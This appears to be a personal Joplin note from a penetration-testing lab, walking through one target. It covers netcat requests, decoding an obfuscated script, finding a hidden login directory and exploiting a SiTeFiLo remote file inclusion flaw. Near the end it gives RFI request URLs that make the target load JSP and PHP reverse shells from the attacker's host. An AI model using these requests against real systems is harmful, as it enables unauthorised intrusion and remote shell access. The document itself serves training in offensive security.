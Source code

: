 Attack Vector 14 - Bad Ph33r

Attack Vector 14 - Bad Ph33r

Explore more netcat... we get a bad request if we just do like this:
![a14da1f09b29d25e93561c1ecfd68574.png](:/23781db6c8cb4d84a6d77c761e06bcec)

But we get the source code if if use User-Agent curl:
`printf "GET / HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: curl/7.68.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`
![fd6d3293779ac40e49a76cb7102e34f2.png](:/419ad0dedf89403ab379d77fc0b3bb95)

A bunch of pages redirect to test.asp. There is referene to a hidd3n-script...
![1b2147729316d451b6c99d3109b3782d.png](:/c1620c2d83cb49ffa480b87caeaefcfa)

Aha! The hidd3n-script
`printf "GET /hidd3n-script HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: curl/7.68.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`
![a912fe5f9ef5835c3221fcd1eac28f00.png](:/27bbbda44b434824bd5bae9d9238fcbb)

Decode the script! Used HexDecoder website. `http://ddecode.com/hexdecoder/?results=b9248126e067728365cc4725f8235294`
![a88064a784fd42b5da80b45ac13b74da.png](:/ad7701128d924bdbae9b13963f833eec)


var _0x5490=["length"," ","offsecphun1.gif","offsecphun2.png","getSeconds","floor","<img src='","'>","write","offsecphun5.bmp","d6467e109c1606ed29","-","1f2e73705207bd","21213/"];var sillydate=0;var sillyvar=0;function StringArray(_0x5b7ex4) {this[_0x5490[0]]=_0x5b7ex4;for (var _0x5b7ex5=1;_0x5b7ex5 <= _0x5b7ex4;_0x5b7ex5++) {this[_0x5b7ex5]=_0x5490[1];};};image=new StringArray(10);image[0]=_0x5490[2];image[1]=_0x5490[3];image[2]=_0x5490[2];image[3]=_0x5490[3];image[4]=_0x5490[2];image[5]=_0x5490[3];image[6]=_0x5490[2];image[7]=_0x5490[3];image[8]=_0x5490[3];image[9]=_0x5490[3];var ran=60/image[_0x5490[0]];function _0x5491() {sillydate=new Date();sillyvar=sillydate[_0x5490[4]]();sillyvar=Math[_0x5490[5]](sillyvar/ran);return (image[sillyvar]);};function _0x5499(_0x4499) {var hmmmm=document.createElement("img");hmmmm.src="/"+_0x4499;document.body.appendChild(hmmmm);}//_0x5499(_0x5490[12]+_0x5490[10]+_0x5490[11]+_0x5490[13]+_0x5491());


What is this? An open UDP port 8696... error in pasting??
![f9b8ebb326b386d04606d7a6d4cac8a7.png](:/8f96da53c4a947428562298d8dae1aea)

[Javascript code deobfuscator](http://codeamaze.com/code-beautifier/javascript-deobfuscator)
![d6e67eb25f79299d3fd1b9c0efe99b11.png](:/83f4cd9f129d42d491c4f13078feccc9)
Here is the deobfuscated script **Problem! Using this strips the first array, so essetially this is unusable**
[unhidd3n-script.js](:/dd4764d2de694d048e2e6c317bef54aa)


Manually, I replaced all the hex strings using this site [Hex to Ascii](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

This link was helpful
[How to build software](https://www.howtobuildsoftware.com/index.php/how-do/bWBX/%E2%80%9C)

The hidd3n-script after I converted the hex manually:
[hidd3n-script](:/f742aed1181445238b313979ce4490de)
![c7432d6b3f4142dfeea947f437f0e7f2.png](:/3f1c6917f0c54c3fb2d1503b56960bc6)

Tried inputting the offsecphun5.bmp
this got redirected to
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/1.jpeg`
![baf5ab1461fbe4a1a2f32378f6618ec8.png](:/cea7dbd479054f8082b4ee31d1b33a83)

But the directory shows a login page:
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/`
![ec6828a95c3a2c6f5e90eb54d17e4ac0.png](:/a1b92b3eef8346c58091cab6e10ee6a6)

The source code for 
`view-source:http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/index.asp`
![0949b25419cfcf3b6614874bd3df4417.png](:/d8239642f1d146a2aee491efb033c059)

# Search for slogin_POST_username and slogin_POST_password
## Google search for slogin_post_username:
[Simple Text-File Login script (SiTeFiLo) 1.0.6 - File Disclosure / Remote File Inclusion](https://www.exploit-db.com/exploits/7444)

## Searchsploit had nothing for slogin
`searchsploit slogin`
![c44b430e89c35bca07cf779e60e3713d.png](:/3e16d497144245f1aeeb4f64dfacd887)

`searcshploit sitefilo`
![80a9969f1336663627df41825dceb106.png](:/7f161af95326474485dab2139fae9ed2)

### Does the file exist? I think so...
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php`
![6a03fb779025f7ea4143ff18bbfe3d75.png](:/216d1d19e9624d5f8568a5fffb02f85b)

### The RFI exploit should be like this:
[!] EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]

The slog_users.txt is there!
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slog_users.txt`
![3b8c9d60c01287d3859081c99a3f1b5e.png](:/3ffd3379c8a74322ac93300240b338bd)

Tried a jsp reverse shell... didn't quite work.
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/jsp-reverse.jsp?`
![3a7c3b93808a5ee619abd24e63cb4121.png](:/9771fc9d775d419f9b9120786c4e5915)

Looking at the above output... perhaps php is better. Using the reverse shell from /usr/share/wordlist
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/php-reverse-shell.php?`

![bc6190236deda6266c4beceac888daec.png](:/6aa045518edb451b9eddf9a6bfeefc2f)

The listener
![6565b87e4699988db53ce2f718c5e4bf.png](:/60a726c863c94e22b9987ead5f9754c7)




id: 6c95904bf1484f9792d51241553f2889
parent_id: c4928f1fb69c4a37969773bc13fe094b
created_time: 2020-09-01T08:03:48.903Z
updated_time: 2020-09-02T22:56:03.681Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-01T08:03:48.903Z
user_updated_time: 2020-09-02T22:56:03.681Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1